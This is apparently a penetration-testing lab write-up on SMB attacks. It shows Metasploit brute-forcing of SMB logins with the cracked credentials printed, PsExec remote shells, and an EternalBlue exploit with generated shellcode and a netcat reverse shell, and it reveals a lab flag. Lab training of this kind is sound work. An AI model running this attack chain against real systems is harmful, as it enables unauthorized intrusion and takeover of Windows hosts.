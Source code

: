 # 🔬SMB - PsExec

## Lab 1

> 🔬 [Windows: SMB Server PSexec](https://attackdefense.com/challengedetailsnoauth?cid=1959)
>
> - Target IP: `10.4.16.36`
> - **SMB** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
>   

### Enumeration

```bash
ping 10.4.16.36

nmap -sV -sC 10.4.16.36
```

```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-408S766
| Not valid before: 2023-03-11T17:43:37
|_Not valid after:  2023-09-10T17:43:37
|_ssl-date: 2023-03-12T17:47:48+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-12 23:17:49
|_  start_date: 2023-03-12 23:13:37
```

![](windows-attacksassets/image-20230312184902175.png)

> 📌 SMB version 2.02

### SMB Brute-force

- Use Metasploit [smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login) module to brute force SMB
  - The brute force success is based on the users and password used.


```bash
msfconsole
```

```bash
search smb_login
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.4.16.36
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```

![Metasploit smb_login](windows-attacksassets/image-20230312190418458.png)

```bash
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\sysadmin:samantha'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\demo:victoria'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\auditor:elizabeth'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\administrator:qwertyuiop' Administrator
```

### SMB Exploitation

- Use [PsExec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) script for Linux (from the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/))  to get a command prompt on the target machine, with the Administrator account.
  - Using this technique, **no exploit is launched or uploaded on the target system**.
  - It is a legitimate authentication with the actual credentials and the use of an official tool (`psexec`).

```bash
psexec.py Administrator@10.4.16.36 cmd.exe
```

 ![psexec.py](windows-attacksassets/image-20230312191210984.png)

- Alternatively to the Python script, use Metasploit [psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/) module to get a `meterpreter` session on the target system.
  - This technique will **upload and run a (malicious) payload** on the target. Pay attention to the antivirus!

```bash
msfconsole
search psexec
use exploit/windows/smb/psexec
set RHOSTS 10.4.16.36
set SMBUser Administrator
set SMBPass qwertyuiop
# Make sure the LHOST = your host IP address
exploit
```

![Metasploit psexec](windows-attacksassets/image-20230315154321522.png)

- Find the flag, running `meterpreter` commands

```bash
shell
# will provide a cmd shell on the target machine
cd \
dir
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>



`e0da81a9cd42b261bc9b90d15f780433`

![](windows-attacksassets/image-20230312191432614.png)

</details>

------

## Lab 2 - Eternal Blue (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine. On the server, I have activated `File Services` role and created a shared folder with the Administrators Group.
>
> - Host system: `Kali Linux`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `Administrator`:`Eternal17010`
> - Exploitation tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
> - Vulnerability: [CVE-2017-0143 - EternalBlue](https://nvd.nist.gov/vuln/detail/CVE-2017-0143) + [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)

### Enumeration

```bash
nmap -sV -sC 192.168.31.131
```

![nmap -sV -sC 192.168.31.131](windows-attacksassets/image-20230314175805319.png)

```bash
sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131
```

![sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131](windows-attacksassets/image-20230314181920417.png)

> - 📌 The system is vulnerable to the `CVE-2017-0143`

### Manual Exploitation

- [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) will be used for the manual exploitation

```bash
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt
```

- Generate a shellcode that will be exploited on the target system.

```bash
cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell
```

![./shell_prep.sh](windows-attacksassets/image-20230314183458007.png)

- Set a **`netcat`** listener on the specified port, in another terminal tab

```bash
nc -nvlp 1234
```

- In the `AutoBlue` terminal tab, use the `eternalblue_exploit7.py` to exploit the target from the AutoBlue-MS17-010 directory

```bash
cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py 192.168.31.131 shellcode/sc_x64.bin
```

- Check the `netcat` tab for the reverse shell

![Reverse Shell Success](windows-attacksassets/image-20230314184120008.png)

### Automatic Exploitation

```bash
msfconsole
```

```bash
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.31.131
exploit
```

![Metasploit ms17_010_eternalblue](windows-attacksassets/image-20230314184602900.png)

------

